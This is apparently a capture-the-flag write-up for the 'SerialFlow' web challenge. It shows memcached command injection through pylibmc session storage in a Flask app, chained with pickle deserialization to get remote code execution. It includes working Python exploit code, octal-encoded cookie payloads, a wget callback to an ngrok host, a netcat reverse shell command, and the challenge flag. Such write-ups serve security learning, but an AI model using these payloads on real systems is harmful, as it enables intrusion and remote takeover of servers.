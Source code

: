 # SerialFlow

Date: March 2024

Difficulty: <font color='orange'>Medium</font>

Category: **web**

## Description
>SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Strategy

The foothold for the challenge was understanding that the application is using Memcached in a Flask application and that a known vulnerability can be used to gain remote code execution via unsafe picke deserialization. 

## Enumeration

The website at first view does not provide much functionalities.

![](assets/overview.png)

We are given the source code "web_serialflow.zip".

### Analyzing the source code

#### 1. uicolor query parameter

We see that if passed a uicolor value via query parameter it changes the color. At first, we supposed the initial foothold was via manipulating this value (SSTI, css injection, etc), but proved to be wrong.

![](assets/uicolor.png)

Changed value to #a71919: `/set?uicolor=%23a71919`
![](assets/setcolor.png)
![](assets/colorchanged.png)

#### 2. memcached and pylibmc

There is a really interesting [post](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) about **memcached command injections at pylibmc python library**, which also got for review in the nomination of the [top 10 web hacking techniques of 2023 by Portswigger](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open).

![](assets/nominations-open-2023.png)

The [proof of concept](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py) provided in the post is very similar to serialflow:
1. [requirements.txt](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/requirements.txt) of the PoC has the same versions for Flask, Flask-Session, pylibmc and Werkzeug python libraries.
2. The `app.py` provides the /set endpoint for saving and / for retrieving values from the session storage at Memcached.


![](assets/memcached.png)
![](assets/requirements.png)

```python
[...]
app = Flask(__name__)
[...]
app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])

[...]

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)

```

#### 3. Memcached injections talk at BlackHat 2014

There is an interesting [research](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf) / [talk](https://www.youtube.com/watch?v=K4OWPdMLi64) about memcached injections by Ivan Novikov that mentions that memcached injections can be used to gain RCE via deserialization of unreliable data.

![](assets/research-2014.png)

## Exploitation

### 1. Understanding differences between PoC and challenge

- The PoC uses a session called ["notsecret"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L17) which is set via] `app.config["SESSION_COOKIE_NAME"]`.
- The PoC uses a key prefix ["BT_:"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L16C17-L16C35)
- The challenge <u>does not set</u> explicitly the session variables "SESSION_COOKIE_NAME" or "SESSION_KEY_PREFIX" as the the PoC. The defaults values for them are "session" and "session:" respectively by the documentation [\[1\]](https://flask.palletsprojects.com/en/2.3.x/config/#SESSION_COOKIE_NAME), [\[2\]](https://flask-session.readthedocs.io/en/latest/config.html#SESSION_KEY_PREFIX).
- There is a public [tweet](https://twitter.com/d4d89704243/status/1621972831952162816) by the author of the PoC that clarifies a little better the exploitation.

![](assets/cookie-name.png)
![](assets/key-prefix.png)
![](assets/tweet-poc.png)


### 2. Crafting serialized pickle payload to gain RCE on the target

Based on [#1](#1-understanding-differences-between-poc-and-challenge) and the [PoC](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) we craft the following exploit to verify the vulnerability. The idea is to get a callback to our server.
We already checked that /usr/bin/wget is present on the docker image.

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a71-2800-a4-32d0-e500-2fe9-9985-8827-ead.ngrok-free.app -O /dev/null')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())

```

That resulted in:

```bash
$ python3 memcached.py 
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\061\064\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\061\141\067\061\055\062\070\060\060\055\141\064\055\063\062\144\060\055\145\065\060\060\055\062\146\145\071\055\071\071\070\065\055\070\070\062\067\055\145\141\144\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\040\055\117\040\057\144\145\166\057\156\165\154\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```

The exploit is [here](./exploit.py)

### 3. Gain RCE with generated local image of the challenge

This step is acomplished via 2 steps unified:
- Call the /set endpoint which saves our serialized payload in memcached.
- Redirect to / which loads and deserializes our payload.

Placing the generated payload inside the current "session" cookie and following the redirect executes our payload:

![](assets/rce-wget.png)
![](assets/wget-callback.png)

Checking locally in the log console it displays the connection:
![](assets/console-log.png)

Now we changed the payload for a reverse shell:

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.sa.ngrok.io 15167 -e /bin/sh')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())
```

```bash
$ python3 memcached.py  
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\066\071\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\156\143\040\060\056\164\143\160\056\163\141\056\156\147\162\157\153\056\151\157\040\061\065\061\066\067\040\055\145\040\057\142\151\156\057\163\150\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```

![](assets/revshell-local.png)
![](assets/connection-received-local.png)

### 4. Reverse shell on the target and get the flag

The same revshell payload with the target and get the flag `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`

![](assets/revshell-target.png)
![](assets/connection-target.png)
![](assets/revshell-target-flag.png)

![](assets/pwned.png)